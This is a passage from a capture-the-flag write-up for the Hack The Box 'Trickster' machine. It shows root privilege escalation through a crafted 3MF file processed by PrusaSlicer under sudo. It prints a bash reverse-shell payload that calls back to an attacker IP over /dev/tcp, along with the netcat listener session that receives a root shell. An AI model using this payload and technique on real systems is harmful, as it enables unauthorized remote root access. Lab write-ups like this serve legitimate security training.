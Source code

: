 
![prusa](/assets/img/htb/trickster.htb/prusa.png){: width="800" height="500" }

Do everything [**here**](https://github.com/suce0155/prusaslicer_exploit/blob/main/README.md) or below and you will get shell as `root`.


```console
adam@trickster:~$ ls
evil.3mf  exploit.sh
adam@trickster:~$ mv exploit.sh /tmp
adam@trickster:~$ chmod +x /tmp/exploit.sh 
adam@trickster:~$ cat /tmp/exploit.sh 
/bin/bash -i >& /dev/tcp/10.10.14.145/9999 0>&1
adam@trickster:~$ sudo /opt/PrusaSlicer/prusaslicer -s evil.3mf 
10 => Processing triangulated mesh
20 => Generating perimeters
30 => Preparing infill
45 => Making infill
65 => Searching support spots
69 => Alert if supports needed
print warning: Detected print stability issues:

EXPLOIT
```

```console
┌─[suce@parrot]─[~/Desktop/htbMachines/medium-trickster/b4a8b52d-651b-44bc-bbc6-f9e8c6590103/prusaslicer_exploit]
└──╼ $ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.145] from (UNKNOWN) [10.129.136.125] 52202
root@trickster:/home/adam# id
id
uid=0(root) gid=0(root) groups=0(root)
```


